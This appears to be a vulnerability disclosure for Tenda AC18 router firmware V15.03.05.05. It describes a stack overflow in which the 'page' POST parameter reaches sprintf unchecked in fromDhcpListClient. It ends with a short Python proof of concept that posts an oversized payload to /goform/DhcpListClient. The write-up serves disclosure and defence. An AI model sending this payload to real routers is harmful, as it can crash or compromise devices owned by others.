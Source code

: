 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. The `v11` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v11` can trigger this security vulnerability.

![image-20240305235042176](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305235042176.png)

![image-20240305235054221](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305235054221.png)

![image-20240305211125463](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305211125463.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305234623581](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305234623581.png)
